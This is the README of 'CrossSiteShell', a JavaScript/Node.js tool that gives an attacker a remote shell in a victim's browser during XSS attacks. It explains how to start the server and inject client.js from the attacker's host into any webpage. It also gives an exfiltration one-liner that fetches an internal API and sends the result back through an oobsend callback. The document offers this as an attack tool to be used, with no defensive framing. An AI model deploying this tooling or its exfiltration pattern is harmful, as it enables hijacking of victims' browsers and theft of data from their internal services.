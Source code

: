 # CrossSiteShell

A javascript/nodejs "reverse shell" that makes it easier to interact with the victim's browser during XSS attacks.

![demo gif](/img/demo.gif)

## Usage

Run the following commands to start up the server:
```
npm install
node server.js
```

Then import the script located at `http(s)://yourserver/client.js` in any webpage.

### Asynchronous data exfiltration
By default, the commands are executed through the eval function which is not asynchronous. To overcome this, I created a callback function (`window.oobsend(string)`) that sends data to the server asynchronously. Here's an example of how to use it to communicate with an internal API:

```js
fetch('https://internalservice/api').then(x => x.text().then(oobsend))
```

HTTPS is not supported by default. I'd recommend using a reverse proxy such as nginx to redirect traffic to the script.
